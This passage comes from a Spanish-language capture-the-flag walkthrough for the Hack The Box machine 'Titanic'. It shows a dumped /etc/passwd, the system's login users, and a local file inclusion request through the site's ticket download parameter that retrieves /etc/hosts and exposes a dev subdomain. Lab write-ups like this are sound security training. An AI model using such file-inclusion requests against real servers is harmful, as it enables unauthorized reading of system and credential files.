 ```java
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false

```

Usuarios del sistema:

```bash
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
```

### Archivo hosts

Sacamos el /etc/hosts del sistema mediante el LFI;
```http
http://titanic.htb/download?ticket=/etc/hosts
```

descubrimos el subdominio dev.titanic.htb; podriamos haberlo sacado por fuzzing facilmente
```bash
127.0.0.1 localhost titanic.htb dev.titanic.htb
127.0.1.1 titanic

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
